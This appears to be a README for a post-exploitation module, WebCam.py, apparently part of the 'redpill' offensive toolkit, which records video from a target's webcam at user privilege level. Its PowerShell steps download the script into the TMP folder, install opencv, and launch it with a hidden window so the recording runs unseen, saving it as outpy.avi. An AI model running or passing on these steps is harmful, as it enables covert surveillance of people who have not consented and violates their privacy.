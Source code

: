 ## WebCam.py - Under Develop (Not stable)

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video using target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[Article](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

#Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -argumentlist "$Env:TMP\WebCam.py"

#Stop capture
stop-process -name python3.9
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
